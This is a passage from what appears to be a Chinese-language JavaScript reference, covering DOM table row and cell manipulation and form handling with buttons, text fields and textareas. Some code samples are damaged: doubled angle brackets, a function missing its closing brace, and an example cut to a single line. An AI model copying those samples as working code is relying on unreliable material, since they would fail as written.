//-->
</script>
<form name="testForm" id="testForm">
<input type="text" name="rowtodelete" id="rowtodelete" size="2" maxlength="2"
value="1" />
<input type="button" value="Delete Row" onclick="if (theTable.rows.length > 0)
theTable.deleteRow(document.testForm.rowtodelete.value);" />
<br />
<input type="button" value="Delete <thead>" onclick="theTable.deleteTHead();" />
<input type="button" value="Delete <tfoot>" onclick="theTable.deleteTFoot();" />
<input type="button" value="Delete <caption>" onclick="theTable.deleteCaption();"
/>
<input type="text" name="rowtoinsert" id="rowtoinsert" size="2" maxlength="2"
value="1" />
<input type="button" value="Insert Row"
onclick="theTable.insertRow(document.testForm.rowtoinsert.value);" />
</form>
```

在 HTML 中由 **<tr>** 定义的表格行，以及 DOM 下的 **HTMLTableRowElement** 对象，具有其常规的 HTML 属性相关属性，例如核心属性（**id**、**class**、**style**、**title**、**lang**、**dir**）以及其特定属性如 **align**、**bgColor**、**ch**、**chOff**（**charOff** 属性的改写）和 **vAlign**。然而，还有一些特殊的属性值得关注。例如，**rowIndex** 表示该行在整个表格中的索引。属性 **sectionRowIndex** 表示该行在其所属的 **<tbody>**、**<thead>** 或 **<tfoot>** 元素中的索引。最后，**HTMLTableRowElement** 的 **cells[]** 集合是该行中由 **<td>** 或 **<th>** 元素定义的单元格的集合。在表格行内，你还可以利用一些实用的方法，包括 **insertCell(index)**（在行中指定列 *index* 处创建一个对应 **<td>** 标签的 **HTMLElement** 对象）和 **deleteCell(index)**（显然用于删除指定 *index* 处的单元格）。

在 HTML 中由 **<td>** 标签定义的实际表格单元格，除了其常规的属性相关属性（如 **abbr**、**align**、**axis**、**bgColor**、**ch**、**chOff**、**height**、**noWrap**、**rowSpan**、**vAlign** 和 **width**）之外，没有太多特殊属性。一个值得一提的特殊属性是 **cellIndex**，它保存了该单元格在其当前行中的索引。这对于传递给 **insertCell()** 和 **deleteCell()** 方法非常有用。下面这个简单的示例展示了如何操作单元格：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html  xmlns="http://www.w3.org/1999/xhtml">
<head>
<title>Table Cell Fun</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<table id="table1" border="1">
<tr id="row1">
    <td id="cell1">Cell 1</td>
    <td id="cell2">Cell 2</td>
</tr>
<tr id="row2">
    <td id="cell3">Cell 3</td>
    <td id="cell4">Cell 4</td>
</tr>
</table>
```

```javascript
<script type="text/javascript">
<!--
var theTable = document.getElementById("table1");
function doRowInsert(row)
{
    var rowNumber = parseFloat(row);
    if ((rowNumber >= 0) && (rowNumber <= theTable.rows.length))
        theTable.insertRow(rowNumber);
}

function doCellInsert(row,column)
{
    var rowNumber = parseFloat(row);

    var colNumber = parseFloat(column);

    var numberRowsInTable = theTable.rows.length;

    if ((rowNumber >= 0) && (colNumber >= 0))
    {
        if (rowNumber >= numberRowsInTable)
        {
            alert("Can't add beyond defined rows");
            return;
        }

        if (colNumber > theTable.rows[rowNumber].cells.length)
        {
            alert("Can't add more than one beyond columns");
            return;
        }

        theTable.rows[rowNumber].insertCell(colNumber);
    }


function doCellModification(row, column, newValue)
{
    var rowNumber = parseFloat(row);

    var colNumber = parseFloat(column);

    var numberRowsInTable = theTable.rows.length;

    if ((rowNumber >= 0) && (colNumber >= 0))
    {
        if (rowNumber >= numberRowsInTable)
        {
            alert("Can't modify cells outside the table");
            return;
        }

        if (colNumber >= theTable.rows[rowNumber].cells.length)
        {

            alert("Can't modify cells outside the table");
            return;

        }

        theTable.rows[rowNumber].cells[colNumber].innerHTML = newValue;
    }
}

function doCellDelete(row,column)
{

    var rowNumber = parseFloat(row);

    var colNumber = parseFloat(column);

    var numberRowsInTable = theTable.rows.length;

    if ((rowNumber >= 0 ) && (colNumber >= 0))
    {

        if (rowNumber >= numberRowsInTable)
        {

            alert("Can't delete beyond defined rows");
            return;
        }

        if (colNumber >= theTable.rows[rowNumber].cells.length)
        {

            alert("Can't delete beyond the column");
            return;
        }

        theTable.rows[rowNumber].deleteCell(colNumber);
    }
}
//--> 
</script>
<form name="testForm" id="testForm" action="#" method="get">

行号: <input type="text" name="rowtoinsert" id="rowtoinsert" size="2" maxlength="2" value="1" />

<input type="button" value="Insert Row" onclick="doRowInsert(document.testForm.rowtoinsert.value);" /><br />
行号: <input type="text" name="insertionRow" id="insertionRow" size="2" maxlength="2" value="0" />
列号: <input type="text" name="insertionColumn" id="insertionColumn" size="2" maxlength="2" value="0" />
<input type="button" value="Insert Cell" onclick="doCellInsert(document.testForm.insertionRow.value,document.testForm.insertionColumn.value);" /><br />
行号: <input type="text" name="modifyRow" id="modifyRow" size="2" maxlength="2" value="0" />
列号: <input type="text" name="modifyColumn" id="modifyColumn" size="2" maxlength="2" value="0" />
新内容: <input type="text" name="newContents" id="newContents" size="20" maxlength="20" value="" />
<input type="button" value="Modify Cell Contents" onclick="doCellModification(document.testForm.modifyRow.value,document.testForm.modifyColumn.value,document.testForm.newContents.value);" /><br />

行号: <input type="text" name="deletionRow" id="deletionRow" size="2"

maxlength="2" value="0" />

列号: <input type="text" name="deletionColumn" id="deletionColumn" size="2"

maxlength="2" value="0" />

<input type="button" value="Delete Cell"

onclick="doCellDelete(document.testForm.deletionRow.value,document.testForm.

deletionColumn.value);" /><br />

</form>

</body>

</html>
```

上述示例的渲染效果如图 13-5 所示。


**图 13-5：** 单元格和行操作示例

> **注意** *你可能会注意到，所使用的 HTML 表格并未包含所有 HTML 4 表格标签。在大多数情况下，你可以使用这种形式的 HTML 而不会有问题。但是，进一步违反 HTML "规则"（如不闭合引号或标签）可能会产生不可预测的结果。*


### DOM 的实际应用

你可能会想知道 DOM 属性能用来做什么。它的应用非常广泛，例如，创建允许用户在不同语言或展示方式之间动态切换的页面。这个小示例以简单的形式演示了这一思路。

```
<<form action="#" method="get">>

Say Hello in:

<<select onchange="document.getElementById('thephrase').firstChild.data =

 this.options[this.selectedIndex].value;">>

    <<option value="Hello">>English<</option>>

    <<option value="Bonjour">>French<</option>>

    <<option value="Hola">>Spanish<</option>>

<</select>>

<</form>>

<<div id="thephrase">>Hello<</div>>
```

> 注意 我们本可以使用大多数 6.x 浏览器普遍支持的 innerHTML 属性，但这里我们选择了完整的 DOM 方式。

当然，我们也可以让整个页面根据所选语言重新渲染，但其思路应该已经足够清晰了。

你还可以将类似的想法应用于为页面选择样式表，如下所示。

```
<<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">>

<<html xmlns="http://www.w3.org/1999/xhtml">>

<<head>>

<<title>>Style Switcher<</title>>

<<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />>

<<link id="styleLink" rel="stylesheet" href="red.css" type="text/css" />>

<</head>>

<<body>>

<<script type="text/javascript">>

<<!--
```

```
function changeStyle(userStyle)
{
    document.getElementById('styleLink').href=userStyle;
}
//-->
</script>
```

#### 来试试更改我的样式吧！

```
<form action="#" method="get">

Change Style:
    <select onchange="changeStyle(this.options[this.selectedIndex].value);">
        <option value="red.css">Red Style 1</option>
        <option value="white.css">White Style 2</option>
        <option value="blue.css">Blue Style 3</option>
    </select>
</form>
</body>
</html>
```

动态表格也有很多可能性。比如当用户点击列标题时对单元格进行排序。你甚至可以提供一个类似电子表格的界面，让用户可以点击单元格并对其进行修改。鉴于页面的每个方面都是可变的，如何利用 DOM 真正取决于你自己的想法。接下来的几章将介绍传统和现代 **Document** 对象的一些常见用途，包括表单验证、鼠标悬停等页面效果以及导航系统。

### 总结

本章概述了 **Document** 对象，从早期浏览器支持的简单传统对象模型开始，简要介绍了与 DHTML 相关的 **Document** 特性，最后介绍了 DOM 标准。虽然 DOM 标准比以前的方法强大得多这一点显而易见，但其成功使用在很大程度上取决于 JavaScript 程序员对 (X)HTML 的了解，因为它的几乎所有属性都源自 (X)HTML。由于本章中给出的现成示例数量有限，**Document** 似乎可能并没有太大用处。然而，事实远非如此。通过对 **Document** 对象的正确应用，熟练的程序员几乎无所不能，正如页面编辑器、表格编辑器以及动态重写页面内容和样式所暗示的那样。[下一章](...)将通过解决 Web 开发者一个常见且广为人知的需求——表单验证，来展示 JavaScript 结合 DOM 的价值。

## 第 14 章：表单处理

JavaScript 最常见的用途之一是在将表单发送到服务器端程序之前检查其内容。这通常被称为*表单验证*，JavaScript 的这一用途实际上是该语言最初发展的驱动力之一，因此本章中介绍的大多数技术即使在最古老的 JavaScript 实现中也能正常工作。然而，虽然 JavaScript 表单验证相对容易实现，但并不总是被正确使用，许多细节——特别是与可用性相关的细节——经常被忽视，因此我们将介绍表单检查的正确用法以及相应的 JavaScript 语法。

### JavaScript 表单检查的必要性

在网站上填写了一个表单，结果页面在与服务器来回往返后返回了数据格式错误的抱怨信息，这可能会相当令人恼火。使用 JavaScript，我们可以在数据*提交*到服务器处理之前检查数据，从而减少等待失败时的挫败感，并提高 Web 表单的可用性。

使用 JavaScript 验证表单条目有两种主要方法。第一种是在填写每个字段时逐一检查。第二种方法是在触发提交时检查表单的所有字段。最后，我们可以通过创建字段掩码来进一步改进验证，从而在一开始就不让错误数据被输入。

虽然基于 JavaScript 的表单验证主要看起来是出于可用性方面的便利，但 Web 服务器也能从表单验证中受益。因为不完整或无效的表单字段条目可以在提交前被捕获，所以浏览器与服务器之间的交互次数会减少。这大概可以让服务器更及时地执行其他工作，而不会因响应大多数常见错误而陷入困境。

在开始讨论之前，让我们先看看如何使用 JavaScript 访问 **form** 标签。

### 表单基础

传统上，JavaScript 通过 **Form** 对象（在 DOM 中称为 **HTMLFormElement**）提供对 (X)HTML 文档中表单的访问，它是 **Document** 对象的子对象。与所有 **document** 对象一样，此对象的属性和方法对应于 (X)HTML <<**form**>> 的各种特性和属性，总结如下：

```
<<form

  id="Unique alphanumeric identifier"

  name="Unique alphanumeric identifier (superseded by id attribute)"

  action="URL to which form data will be submitted "

  enctype="Encoding type for form data"

  method="Method by which to submit form data (either GET or POST)"

  target="Name of frame in which result of submission will appear">>


  *Form field elements and other markup giving form structure*


<</form>>
```

正如我们在对象模型的讨论中已经看到的，**Form** 对象的大多数 JavaScript 属性应该对应于 <<**form**>> 标签的属性。JavaScript **Form** 对象可用的最有用属性摘要见 [表 14-1](表 14-1：Form 对象的主要属性)。

**表 14-1：Form 对象的主要属性**

| 属性 | 描述 |
| --- | --- |
| **action** | 存储 **action** 属性的值，指示用户提交时将表单数据发送到的 URL。 |
| **elements[]** | 表单字段对象的数组，代表此 **<form>** 所包含的表单字段元素。 |
| **encoding** | 存储 **enctype** 属性的值，通常包含值 *application/x-www-form-urlencoded*、*multipart/form-data* 或 *text/plain*。已被 **enctype** 属性取代。 |
| **enctype** | 访问 **enctype** 属性值的 DOM 适用方式。 |
| **length** | 此 **<form>** 标签内的表单字段数量。应与 **elements.length** 相同。 |
| **method** | 此 **<form>** 标签的 **method** 属性值。应为 **GET** 或 **POST**。 |
| **name** | 由其 **name** 属性定义的 **<form>** 的名称。你还应该将 **id** 属性设置为相同的值。 |
| **target** | 显示表单提交结果页面的框架名称。可以持有特殊的框架值，例如 *_blank*、*_parent*、*_self* 或 *_top*。 |

**Forms** 还有两个表单特定的方法。**reset()** 方法清除表单的字段，类似于单击由 <<**input type="reset"** />> 定义的按钮。**submit()** 方法触发表单的提交，类似于单击由 <<**input type="submit"** />> 定义的按钮。除了能够

触发表单重置和提交时，你通常也希望能对这些事件做出响应，因此 `<form>` 标签支持相应的 **onreset** 和 **onsubmit** 事件处理程序属性。与所有事件一样，处理程序脚本可以返回 **false** 值来取消重置或提交。返回 **true**（或不返回值）则允许事件正常发生。基于此行为，以下表单将允许所有表单重置但拒绝提交：

```
<form action="sendit.cgi" method="get" onreset="return true;"
onsubmit="return false;">
... 表单字段 ...
</form>
```

> **注意** *调用 **submit()** 方法时有个麻烦之处，就是它通常会绕过任何 **onsubmit** 事件处理程序。其理由是，既然你是通过脚本触发提交，那么你的脚本也应该能够处理事件处理程序所做的任何事情。*

### 访问表单

在探索检查和操作表单字段之前，我们需要确保能够正确地访问 **Form** 对象。表单可以通过至少三种方式访问：通过 **document.forms[]** 按索引、通过 **document.forms[]** 按名称，或通过常规的元素检索机制（例如，**document.*表单名***，或在支持 DOM 的浏览器中使用 **document.getElementById()**）。例如，要访问此处定义的 HTML 文档中的表单，

```
<form name="customerform" id="customerform" action="#" method="get">
<input type="text" name="firstname" id="firstname" /><br />
<input type="text" name="lastname" id="lastname" />
    ...更多字段...
</form>
```

我们可以使用 **window.document.forms[0]**（假设它是页面中的第一个表单）、**window.document.forms['customerform']** 或 **window.document.customerform**，就像处理任何其他 JavaScript 集合一样。

按名称访问表单远比通过 **forms[]** 集合中的索引访问更好，因为文档中 `<form>` 标签的顺序可能会改变。

### 访问表单字段

正如 **Document** 包含一个 `<form>` 标签的集合，每个表单也包含一个表单字段的集合，可以通过 **elements[]** 集合进行访问。因此，对于上例中的表单，**window.document.customerform.elements[0]** 指的是第一个字段。同样，我们也可以按名称访问字段，例如使用 **window.document.customerform.firstname** 或 **window.document.customerform.elements["firstname"]**。

我们还可以在检查 **elements[]** 集合的 **length** 属性（**window.document.customerform.elements.length**）后，遍历表单字段的集合。方便的是，**elements[]** 集合的 **length** 也存储在 **Form** 对象中。这为我们提供了一种简写方式来查看字段数量：**document.customerform.length**。

在查看代表不同类型表单字段的对象之前，我们先展示一个简短的例子，演示如何访问各种 **Form** 对象属性和方法。

```
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>Form Object Test</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<h2 align="center">Test Form</h2>
<form action="http://www.javascriptref.com/formEcho"
	method="post" name="testform" id="testform"
	onreset="return confirm('Are you sure?');"
	onsubmit="alert('Not really sending data'); return false;">
<label>Name:
<input type="text" id="field1" name="field1" size="20"
	value="Joe Smith" /></label>
<br />
<label>Password:
<input type="password" id="field2" name="field2"
	size="8" maxlength="8" /></label>
<br />
<input type="reset" value="reset"/>
<input type="submit" value="submit" />
<input type="button" value="Do reset"
	onclick="document.testform.reset();" />
<input type="button" value="Do submit"
	onclick="document.testform.submit();" />
</form>
<hr />
<h2 align="center">Form Object Properties</h2>
<script type="text/javascript">
<!--
// Change document.testform to document.forms[0] and you will
// get the same result.
with (document.testform)
{
    document.write("action: "+action+"<br />");
    document.write("encoding: "+encoding+"<br />");
    document.write("length: "+length+"<br />");
    document.write("method: "+method+"<br />");
    document.write("name: "+name+"<br />");
    document.write("action: "+action+"<br />");
    document.write("target: "+target+"<br />");
    for (var i=0; i<document.testform.length; i++)
         document.write("element["+i+"].type="+
                      document.testform.elements[i].type+"<br />");
}
//-->
</script>
</body>
</html>
```

此示例的渲染结果如图 14-1 所示。

**测试表单**

姓名：[Joe Smith    ]

密码：[         ]

[重置] [提交] [执行重置] [执行提交]

**表单对象属性**

action: http://www.javascriptref.com/formEcho

encoding:

length: 6

method: post

name: testform

action: http://www.javascriptref.com/formEcho

target:

element[0].type=text

element[1].type=password

element[2].type=reset

element[3].type=submit

element[4].type=button

element[5].type=button

**图 14-1:** 演示基本的 **Form** 方法和属性

### 表单字段

HTML 支持多种表单元素，包括单行和多行文本框、密码字段、单选按钮、复选框、下拉菜单、滚动列表、隐藏字段以及多种类型的按钮。本节简要回顾每个标签，并展示如何使用 JavaScript 访问和修改其属性。

### 常见输入元素属性

所有 `<input>` 标签在 DOM 中都表示为 HTMLInputElement 对象。这些对象共享许多与作为表单字段功能相关的属性，以及你所期望的 (X)HTML 标准属性（id、title、lang 等）。代表 `<input>` 标签的所有对象共有的属性如表 14-2 所示。特定类型的输入元素——例如 `<input type="image" />`——拥有与其处理的输入类型相关的额外属性和方法。例如，type 等于 "image" 的 input 定义了一个 src 属性，而该属性对于其他类型值则是未定义的。

#### 表 14-2：所有代表 <input> 标签的对象共有的属性和方法

| 属性 | 描述 |
| :--- | :--- |
| AccessKey | 字符串，包含由 accesskey 属性设置的、用于使元素获得焦点的快捷键。注意大小写差异。 |
| defaultValue | 字符串，包含页面加载时 value 属性的内容。 |
| Disabled | 布尔值，指示用户是否可以与此字段交互。这可以通过 (X)HTML 的 disabled 属性设置。 |
| form | 只读引用，指向包含此字段的 Form 对象。 |
| name | 字符串，包含由 name 属性定义的字段名称。id 属性及相应的 id 属性也使用此名称。 |
| Size | 通常用于 type 设置为 "text" 或 "password" 的 <input>，此时它指定字符宽度。因此像 "radio" 或 "checkbox" 这样的 type 值不支持此属性，而 image 类型可能以像素为单位定义 size。 |
| TabIndex | 整数，指示字段在文档 tabbing 顺序中的位置，由 tabindex 属性定义。 |
| type | 字符串，指示元素表示何种表单输入字段。有效值为 "text"、"password"、"button"、"image"、"submit"、"reset"、"radio"、"checkbox"、"hidden" 和 "file"。 |
| Blur() | 使字段失去焦点。 |
| focus() | 使字段获得焦点，以便用户输入。 |

有几个属性确实需要简要讨论。首先，**form** 属性引用元素所在的 **Form** 对象。因此，给定

```
<form name="myform" id="myform">
    <input type="text" name="field1" id="field1" />
</form>
```

**document.myform.field1.form** 的值是名为 *myform* 的 **Form** 对象。当然，你可能想知道这有什么用处，因为我们已经知道表单名称来访问属性。简而言之，当一个函数或对象被赋予某个通用的表单字段对象，而没有任何关于它所属表单的信息时，它就非常有用。

下一个需要讨论的属性是 **defaultValue**。此属性保存原始 HTML 文件中 **value** 属性设置的字符串。因此，给定名为 **testform** 的表单中的 `<input type="text" name="testfield" value="First value" />`，**document.testform.testfield.defaultValue** 的值将是字符串 "First value"。最初，这个值也会保存在属性 **document.testform.testfield.value** 中。然而，当用户更改

字段的内容，**value** 属性会更改以反映用户的修改，而 **defaultValue** 属性将保持不变。实际上，对表单执行 **reset()** 会将所有表单元素的值重置为其 **defaultValue**。有趣的是，虽然 **value** 可以由用户和脚本进行更改是显而易见的，但结果表明 **defaultValue** 也被定义为可通过脚本设置，尽管其价值不那么明显。

在传统的 JavaScript 以及 DOM Level 1 下，所有类型的文本字段都支持 **blur()** 和 **focus()** 方法。文本输入字段还支持 **select()** 方法。因此，有了这些方法，当然也支持 **onblur**、**onfocus** 和 **onselect**。其他事件处理程序更侧重于用户活动，因此许多字段还支持 **onchange**，该事件在字段内容发生更改且字段失去焦点后触发。还支持各种与键盘相关的事件，例如 **onkeypress**、**onkeyup** 和 **onkeydown**。在我们探讨不同类型的表单字段如何使用时，我们将更详细地展示这些属性和方法的使用示例。

### 按钮

HTML 中有三种基本类型的按钮：提交、重置和通用按钮。第四种是图像按钮，第五种是通用按钮元素。后两种类型与基本类型略有不同，将另行讨论。

所有三种基本按钮类型都通过 (X)HTML 的多功能 `<input>` 标签定义。使用 `<input type="submit" />` 创建提交按钮，`<input type="reset" />` 创建重置按钮，`<input type="button" />` 创建通用按钮。要指定按钮上显示的文本，请设置 **value** 属性——例如，`<input type="button" value="Click me please!" />`。

不应忽视这些通用属性；我们可以使用它们来改善按钮的外观和可用性，如下所示：

```html
<form>
    <input type="button" value="Click me" name="button1" id="button1"
        title="Please click me, pretty please!"
        style="background-color: red; color: white;"
        accesskey="c" />
</form>
```

提交按钮的默认行为是将表单字段发送到服务器进行处理。毫不奇怪，重置按钮会导致所有表单字段恢复到原始状态，即页面加载时的状态。通用按钮没有默认操作；要使用它，通常需要附加一个 **onclick** 事件处理程序，以便在单击按钮时发生有用的操作。

除了所有 input 元素共有的属性和方法外，这些按钮还具有表 14-3 中所示的方法。你可以通过调用其 **click()** 方法来强制按钮“点击”。类似地，就像所有 input 元素一样，你可以使用其 **focus()** 方法聚焦按钮，并使用 **blur()** 移开焦点。通常，浏览器会在按钮获得焦点时以某种方式突出显示它——例如，Internet Explorer 会在其边缘放置一个虚线框。

| 方法 | 描述 |
|---|---|
| click() | 模拟点击按钮，触发其默认操作 |

以下简单示例展示了按钮的许多方法和事件的实际应用。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
    <title>Button Tester</title>
    <meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
    <form action="http://www.javascriptref.com" method="get"
        name="testform" id="testform"
        onreset="return confirm('Clear fields?');"
        onsubmit="return confirm('Send form?');">

        <label>Test Field: <input type="text" value="test information" /><br /><br />
        <label>Test Field 2: <input type="text" /><br /><br />

        <input type="reset" value="clear fields" onclick="alert('clicked');" />
        <input type="submit" value="submit" name="thesubmit" id="thesubmit"
            onclick="alert('clicked');" />

        <input type="button" value="regular button" onclick="alert('clicked');" />

        <input type="button" value="Focus submit button"
            onclick="document.testform.thesubmit.focus();" />

        <input type="button" value="Blur submit button"
            onclick="document.testform.thesubmit.blur();" />

        <input type="button" value="Click the submit button"
            onclick="document.testform.thesubmit.click();" />

    </form>
</body>
</html>
```

请记住，这些按钮（实际上，所有表单元素）只能出现在 `<form>` 标签内。虽然 Internet Explorer 可能允许你在文档中的任何位置使用表单元素，但强制执行标准的浏览器不会在 `<form>` 标签外渲染表单字段元素。

### 图像按钮

标准 (X)HTML 提交、重置和通用按钮提供的简单灰色外观通常不受欢迎。一个很好的方法是为按钮应用 CSS 以使其更生动。然而，一些设计者转而使用图像按钮。在标记中创建图像按钮有几种方法。第一种是简单地将 `` 标签包装在链接中并触发一些 JavaScript，例如，

```html
<a href="javascript:document.myform.submit();"></a>
```

或者，你可以使用 `<input type="image" />` 表单字段。在 (X)HTML 下，此类字段用于创建图形提交按钮。例如，要创建由图像组成的提交按钮，你可以使用

```html
<input type="image" name="testbutton" id="testbutton"
src="../images/button.gif" alt="Submit" />
```

图像按钮的独特属性在表 14-4 中讨论。特别要注意的是，可以通过 usemap 属性将图像映射与图像按钮一起使用。然而，有趣的是，无论是否使用 usemap 属性，基于图像的提交按钮在提交时总是发送 x 和 y 值，指示被点击图像的像素坐标。

#### 表 14-4：类型为 "image" 的输入的附加属性

| 属性 | 描述 |
| --- | --- |
| Alt | 按钮的文本替代内容，用于非可视浏览器 |
| Src | 显示为按钮的图像的 URL |
| UseMap | 指示该按钮是客户端图像映射 |

> 注意：尽管自 HTML 4 以来就已定义，但图像按钮通常不被较旧的浏览器支持。即使是相对较新的浏览器，如 Internet Explorer 5，也无法正确识别它。

### 通用按钮

HTML 4 和 XHTML 支持 `<button>` 标签，它比 `<input>` 灵活得多，并提供了视觉上更丰富的按钮的可能性。`<button>` 标签的基本语法如下所示：

```html
<button type="button | reset | submit"
id="button name" name="button name"
value="button value during submission">
    Button content
</button>
```

这里展示了 `<button>` 使用的两个示例：

```html
<button type="submit" name="mybutton" id="mybutton">
    <em>Yes sir, I am a submit button!</em>
</button>

<button type="button" name="mybutton2" id="mybutton2">
    
</button>
```


支持基本语法和前面的示例，DOM Level 1 定义了 **HTMLButtonElement** 对象的预期属性，如表 14-5 所示。

#### 表 14-5：表示 <button> 标签的 HTMLButtonElement 对象的属性

| 属性 | 描述 |
|---|---|
| **accessKey** | 存放快捷键字符串 |
| **disabled** | 布尔值，指示字段是否被禁用 |
| **form** | 对包含的 **Form** 对象的引用 |
| **name** | 字段的名称（也使用 **id**） |
| **tabIndex** | 由 **tabindex** 属性定义的制表键顺序中的数字位置 |
| **type** | 指示按钮的类型："button"、"reset" 或 "submit" |
| **value** | 如果提交表单，则发送到服务器的值 |

可以像往常一样使用 **onfocus** 和 **onblur** 事件处理程序捕获焦点和失焦事件。单击事件和方法通常也得到浏览器支持。然而，尽管包含在 W3C 标准中，但较旧的浏览器（特别是 Netscape 4）对 `<button>` 标签的渲染不一致，因此设计者可能转而选择使用常见的 `<input type="submit" />`、`<input type="reset" />` 和 `<input type="button" />` 标签，甚至使用链接和图像伪造表单按钮的操作（如前所述）。

### 文本字段

有三种类型的文本输入字段：单行文本条目、密码字段和称为 *文本区域* 的多行文本字段。单行文本字段由 `<input type="text" />` 定义，而密码字段由 `<input type="password" />` 定义。在传统的 HTML 下，这两种形式的 `<input>` 元素支持相同的属性，此处概述如下：

```html
<input type="text or password"
    name="unique alphanumeric name for field"
    id="unique alphanumeric name for field"
    maxlength="maximum number of characters that can be entered"
    size="display width of field in characters"
    value="default value for the field" />
```

除了所有 input 元素共有的属性和方法外，“text”和“password”字段还具有表 14-6 中所示的属性和方法。

#### 表 14-6：类型为 "text" 或 "password" 的输入的附加属性

| 属性 | 描述 |
|---|---|
| **maxLength** | 可输入到字段中的最大字符数 |
| **readOnly** | 布尔值，指示用户是否可以修改字段的内容 |
| **select()** | 选择字段的内容，例如，为替换或复制到剪贴板做准备 |

以下示例展示了文本字段及其属性和方法的使用，包括读取和设置值。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
```


#### 文本字段属性示例

此示例的渲染效果如图 14-2 所示。


图 14-2：正在测试的文本字段

### 文本域

与 "text" 类型输入框密切相关的是 `<textarea>` 标签，即多行文本输入区域。`<textarea>` 的基本语法如下：

```
<textarea name="field name" id="field name"
    rows="number of rows" cols="number of columns">

默认文本内容

</textarea>
```

尽管严格来说它不是 `<input>` 标签，但 **HTMLTextAreaElement** 拥有所有 "text" 类型输入框的属性和方法，以及 **表 14-7** 中列出的额外属性和方法。不过，它没有 **maxLength** 属性。

**表 14-7：HTMLTextAreaElement 对象的独有属性**

| 属性 | 说明 |
| --- | --- |
| cols | 输入区域的宽度，以字符数为单位 |
| **rows** | 输入区域的高度，以字符数为单位 |

在 JavaScript 中使用 `<textarea>` 的方式与使用标准单行文本字段或密码字段基本相同，主要区别当然在于通过 rows 和 columns 来改变区域大小。不过，value 和 **defaultValue** 可能会略有不同，因为 `<textarea>` 中可能包含回车符或其他需要在 JavaScript 中转义的字符。最后，**type** 属性会将该字段报告为 *textarea* 而非 *text*。以下简短示例演示了 JavaScript 与 `<textarea>` 的基本用法。

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">

<html>

<head>

<title>Textarea Test</title>

<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

</head>

<body>

<h2 align="center">Test Form</h2>

<form name="testform" id="testform"

    action="http://www.javascriptref.com" method="get">

<label>Textarea 1:

 <textarea name="field1" id="field1" rows="5" cols="40">

    This is some

        default text

</textarea></label>

<br /><br />

<input type="button" value="Check Value"

 onclick="alert(document.testform.field1.value);" />

<input type="button" value="Set Value"

 onclick="document.testform.field1.value='this is a \n\n\n\t\t test!';" />

<br />

<input type="button" value="Change Rows"

onclick="document.testform.field1.rows=document.testform.rowsField.value;"

/>

<input type="text" name="rowsField" id="rowsField" value="2"

       size="2" maxlength="2" />

<br />

<input type="button" value="Change Cols"

onclick="document.testform.field1.cols=document.testform.colsField.value;"

/>

<input type="text" name="colsField" id="colsField" value="10"

       size="2" maxlength="2" />

<br />

</form>

<hr />

<h2 align="center">Common Field Properties</h2>

<script type="text/javascript">

<!--

document.write("defaultValue: " + document.testform.field1.defaultValue+"<br />");

document.write("form: "+document.testform.field1.form+"<br />");

document.write("form.name: " + document.testform.field1.form.name+

"<br />");

document.write("name: "+document.testform.field1.name+"<br />");

document.write("rows: "+document.testform.field1.rows+"<br />");

document.write("cols: "+document.testform.field1.cols+"<br />");

document.write("type: "+document.testform.field1.type+"<br />");

document.write("value: "+document.testform.field1.value+"<br />");

//-->
</script>
</body>
</html>
```

**\<textarea\>** 标签有一个值得讨论的有趣方面，那就是没有明显的方法来设置可输入内容的最大长度。对于支持所有核心事件（如 **onkeypress**）的浏览器，我们可以很容易地使用脚本来限制字段，如下所示：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>Limited Text Area</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />
</head>
<body>
<form name="myform" id="myform" action="#" method="get">
<label>Comments:<br />
<textarea name="comments" id="comments" rows="4" cols="40"
onkeypress="return (document.myform.comments.value.length < 100);">
Will be limited to 100 characters in a compliant browser.
</textarea>
</label>
</form>
</body>
</html>
```

当然，上述脚本在许多旧版浏览器中将无法工作，因为它们不支持 **onkeypress** 事件。针对无限制字段长度的问题，一种可能的解决方案是在内容发生变化时（或在提交时）检查字段 **value** 的 **length**，并将其缩减到适当的字符数。以下示例展示了处理此问题的一种可能方法：

```html
<!DOCTYPE html PUBLIC "-//W3C//DTD XHTML 1.0 Transitional//EN"
"http://www.w3.org/TR/xhtml1/DTD/xhtml1-transitional.dtd">
<html>
<head>
<title>Limited Text Area Take 2</title>
<meta http-equiv="content-type" content="text/html; charset=ISO-8859-1" />

<script type="text/javascript">

<!--

function checkLimit(field, limit)

{

 if (field.value.length > limit)

 {

  alert("Field limited to "+limit+" characters");

  // Truncate at the limit

  var revertField = field.value.slice(0, limit-1);

  field.value = revertField;

  field.focus();

 }

}

//-->

</script>

</head>

<body>

<form id="myform" name="myform" action="#" method="get">

<label>Comments:<br />

<textarea id="comments" name="comments" rows="8" cols="40"

onchange="checkLimit(this, 100);">

Try entering 10 more characters to surpass the 100 character limit

on this field, then click outside the textarea.

</textarea>

</label>

</form>

</body>
</html>
```

